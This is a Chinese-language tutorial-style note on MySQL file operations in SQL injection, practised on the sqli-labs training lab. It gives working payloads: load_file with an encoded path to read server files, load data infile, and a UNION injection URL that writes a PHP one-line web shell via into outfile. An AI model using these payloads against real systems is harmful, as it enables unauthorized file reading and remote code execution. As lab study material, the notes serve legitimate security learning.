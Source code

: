 # 1.导出文件

load_file():

读取文件内容并将文件内容作为一个字符串返回。在网络安全中可用来读取服务器文件。

如：

```javascript
union select 1,1,load_file(CHAR(72, 58, 92, 87, 87, 87, 92, 102, 
108, 97, 103, 46, 112, 104, 112))--+
```

注:CHAR(72, 58, 92, 87, 87, 87, 92, 102, 108, 97, 103, 46, 112, 104, 112)="H:\WWW\flag.php"

![](images/66B3876071A44D67943EA06F9366267Fclipboard.png)



# 2.文件导入到数据库

```javascript
load data infile FILE_PATH into table TABLE_NAME(COLUMN_NAME)
```

列如：load data infile "H:\WWW\\flag.php" into table users(username);

将flag.php文件中的内容读取到users表username字段中。

![](images/758545ECEA954996A4CA06CE0C45D5F1clipboard.png)



# 3.数据导入到目录下文件

```javascript
select 'STRING' into outfile 'FILE_NAME'
```



## 3.1将需要查询的信息保存到txt文件中直接访问。

例如：

http://127.0.0.1/sql-labs/Less-7/?id=1'))union select 1,2,version() into outfile "H:\\WWW\\sql-labs\\Less-7\\1.txt"--+

注意：file_path需要路径需要转义H:\\WWW\\sql-labs\\Less-7\\1.txt（试了好几次才成功，不懂😭）



![](images/376000C493934BB5A20D21CF49E927D5clipboard.png)



## 3.2写入一句话木马。

例如：

```javascript
http://127.0.0.1/sql-labs/Less-7/?id=1'))union select 1,2,
'<?php @eval($_post["mima"])?>' into outfile 
"H:\\WWW\\sql-labs\\Less-7\\shell.php"--+
```



![](images/FF5EF44BCD1848CE84469385A7DCC1A0clipboard.png)

